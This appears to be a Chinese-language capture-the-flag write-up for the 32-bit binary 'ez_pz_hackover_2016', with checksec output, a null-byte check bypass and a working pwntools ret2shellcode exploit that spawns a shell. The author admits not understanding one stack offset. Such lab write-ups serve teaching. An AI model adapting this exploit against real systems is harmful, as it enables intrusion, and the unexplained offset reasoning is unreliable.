




```shell
bamuwe@qianenzhao:~$ checksec ez_pz_hackover_2016
[*] '/home/bamuwe/ez_pz_hackover_2016'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```




- 逻辑绕过
- `\x00`阶段
- 动态调试计算栈空间
- `ret2shellcode`

1. 栈保护全关,考虑`ret2shellcode`
2. 通过`\x00`绕过前置验证,进入`vuln`函数
3. `vuln`函数中,会把`&src`赋值给`dest`这其中存在漏洞

正常思路这里就可以构造`payload`了,但是这里`ida`分析出来的`dest`栈空间为`0x32`与实际不符合,我们需要动态调试手动查看栈空间



> 停在`nop`处查看栈





> 手动查找得到栈实际空间为`0x1a`

> distance计算栈之间的距离

```python
from pwn import *
context.log_level = 'debug'
#io = process('./ez_pz_hackover_2016')
io = gdb.debug('./ez_pz_hackover_2016','break vuln')
elf = ELF('./ez_pz_hackover_2016')
io.recvuntil(b'Yippie, lets crash: ')
s_addr = int(io.recv(10),16)
print('s_addr',hex(s_addr))
payload1 = b'crashme\x00'
payload1 = payload1.ljust(0x1a,b'A')
payload1 += p32(s_addr-0x1c)+asm(shellcraft.sh())
io.sendlineafter('> ',payload1)
io.interactive()
```

`s`栈上的空间写不下`shellcode`所以直接把`shellcode`写在`ret`地址之后.

> ?这里的`s_addr`为什么要`-0x1c`还不了解,偏移后的位置正好是一个输入的栈的起始但为什么是这个值还不清楚.

这道题应该也可以通过泄露Libc的方式做,但是没有成功

```python
```
